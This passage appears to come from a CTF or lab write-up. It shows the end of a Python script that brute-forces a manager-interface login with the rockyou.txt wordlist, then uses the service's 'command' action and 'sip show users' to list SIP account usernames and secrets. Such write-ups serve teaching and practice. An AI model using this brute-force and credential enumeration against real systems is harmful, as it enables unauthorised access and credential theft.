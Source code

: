         print(result.decode("utf-8"))
        if(not "failed" in result.decode("utf-8")):
            print(passw + " is the password")
            break

        s.close()


{% endhighlight %}

This script loops through rockyou.txt starting a connection to the service sending a login attempt and closing the connection until finding an accepted connection, so I let this service running while trying to investigate the machine a little more and, after less than one minute, the script found the password.

So after getting the password I logged on the service using the credentials we have. After logging in the service, it responds with this:

```
Response: Success
Message: Authentication accepted

Event: FullyBooted
Privilege: system,all
Uptime: 1015
LastReload: 1015
Status: Fully Booted

```

So I searched which actions I could use in this service and there are a LOT of possible actions, but one of them caught my eye, the action **command**.

So the first thing I tried was this:

```
action: command
command: ls

Response: Error
Message: Command output follows
Output: No such command 'ls' (type 'core show help ls' for other possible commands)
```

I thought that I could maybe use this action to execute commands on the machine, but after searching for a bit it seems that it is not possible, but I still wanted to see what I could do with this command action and the output tells us to type **'core show help &#x3C;COMMAND&#x3E;'**, so I tried sending the command **'core show help'** and got a huge list of possible commands.

So I read the list and started trying some of the commands that I thought could be useful and the command that ended up giving me what I wanted was **'sip show users'** here's the output of it.

```
action: command
command: sip show users

Response: Success
Message: Command output follows
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: [REDACTED]                 [REDACTED]                        test             No   No 
```
